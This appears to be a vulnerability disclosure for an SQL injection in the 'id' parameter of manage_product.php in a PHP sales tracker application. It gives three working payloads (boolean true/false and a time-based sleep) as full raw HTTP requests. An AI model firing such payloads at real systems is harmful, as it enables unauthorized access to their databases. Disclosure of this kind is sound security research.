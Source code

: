 # Sales Tracker Management System v1.0 has SQL injection

BUG_Author:Peony

Website source address:https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Vulnerability File: /php-sts/admin/products/manage_product.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 'a'='a

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/graywar1/bug_report/blob/main/sql1.png)

Payload2:id=1' and 'a'='z

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20%27a%27=%27z HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/graywar1/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 1 from (select(sleep(10)))x) and 'q'='q

```
GET /php-sts/admin/products/manage_product.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))x)%20and%20%27q%27=%27q HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fanr1ghd9tvb782oh39fmqckfr
Connection: close
```

The server response time is 10 seconds

![image](https://github.com/graywar1/bug_report/blob/main/sql3.png)
